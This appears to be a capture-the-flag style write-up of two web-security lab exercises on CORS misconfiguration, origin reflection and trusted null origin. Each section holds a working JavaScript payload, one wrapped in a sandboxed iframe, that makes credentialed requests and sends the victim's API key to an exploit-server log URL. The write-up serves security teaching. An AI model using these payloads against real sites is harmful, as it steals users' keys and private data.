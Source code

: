 # CORS

## CORS vulnerability with basic origin reflection
After logging in, the application includes an API key in the response to /accountdetails page. 

Notice that after logging in the response includes the header `Access-Control-Allow-Credentials: true` indicating the web server supports CORS

Modifying the request with the header `Origin: example.com` the request includes the header `Access-Control-Allow-Origin: example.com`

Stage this in the exploit server 
```
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
</script>
```
The XMLHttpRequest from the malicious domain is possible because CORS is enabled. Set withCredentials=true to include the API Key in the response.
The reqListener takes the response and appends it to the log.
Then we check the log to find the administrator's API key

## CORS vulnerability with trusted null origin
This cors vulnerability also has the Access-Control-Allow-Origin header, suggesting CORS, as well as `X-Frame-Options: SAMEORIGIN`
We have to stage an exploit in such a way that the origin header is set to null, which we can do by using iframe with the sandbox attribute.
```
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
  var req = new XMLHttpRequest();
  req.onload = reqListener;
  req.open('get', 'https://0a290065046be0768013713000fc00f2.web-security-academy.net/accountDetails',true);
  req.withCredentials = true;
  req.send();
  function reqListener() {
    location='https://exploit-0a9300380459e01b8043702f019e00ff.exploit-server.net/log?key='+encodeURIComponent(this.responseText);
  };
</script>"></iframe>
```

This is a vulnerability because the server trusts any null origin, so the sandboxed environment can read private user data in the cookies or response